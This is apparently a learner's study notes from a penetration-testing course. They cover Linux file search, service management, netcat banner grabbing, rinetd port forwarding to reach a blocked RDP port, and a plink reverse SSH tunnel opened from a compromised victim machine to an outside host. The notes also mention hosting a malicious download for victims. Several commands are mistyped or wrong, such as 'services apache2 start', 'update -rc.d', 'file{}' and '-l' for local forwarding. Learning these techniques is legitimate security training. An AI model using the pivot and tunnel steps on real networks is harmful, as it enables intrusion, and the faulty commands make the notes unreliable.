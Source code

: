 linux utilities to **find or locate** files

1. Locate command: 

Updatedb -- to update the db of the OS

Ex: locate sbd.exe

1. Which command :

Ex: which sbd : prg can be found under /usr/bin/

1. find command:

Ex: find / -name sbd\*

all files lower case sbd and file format.

find  -name sbd\* -exec file{} \;

**Services**:

passwd : change the old and weak pass to new strong password

1. SSH Services : Secure shell

EX : netstat -antp \| grep sshd

Service ssh stop

1. HTTP Server:

TCP based  and download the malicious file to victim

Ex: services apache2 start

echo "kali linux rocks" &gt; /var/www/index.html

1. services management : wrapper around /etc/init.d

4.Service persistent

update -rc.d ssh enable

update-rc.d apache2 enable

RC conf also can be used

**bash scripting**

1. cat index.html l grep "href="
2. cat index.html \| grep "href=" \| cut -d

**Essential**

netcat : network utility able to read and write to TCP and UDP ports

it can be used as TCP client or server

nc -nv 192.168.20.25 25

open

banner

HELP

SMTP list all commands

nc -nv 192.168.30.35 110

bob

password: bob

**Port Forwarding**

rinetd.conf

scenario1:

Internal PC \(Engree port 80 and 443\)

if it want to connect to remote desktop\(67.23.72.109\) it can't as RDP port is blocked.

* If we have a linux machine\(208.88.127.99\) with public IP address we need to use utility rinetd.conf
* Accept traffic of TCP port 80 and redirect to 3389

```
Bindaddress    Bindport    ConnectAddress    Connectport
208.88.127.99    80        67.23.72.109        3389

/etc/init.d/rinetd start
```

Encrypted tunnel within the ssh tunnel:

SSH Local Port forwarding \(-l\):

localport --&gt; remoteport \(Over ssh tunnel\)

Scenario2:

Initiated Client Attack \(on org\) and got shell of a internal machine \(Non routable\) -- &gt; uploaded a SSH windows client \(plink\) on vi 

on victim machine we have RDP enabled \(\)

Now tunnel the local rdp traffic to the remote port using plink

```
plink -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
```



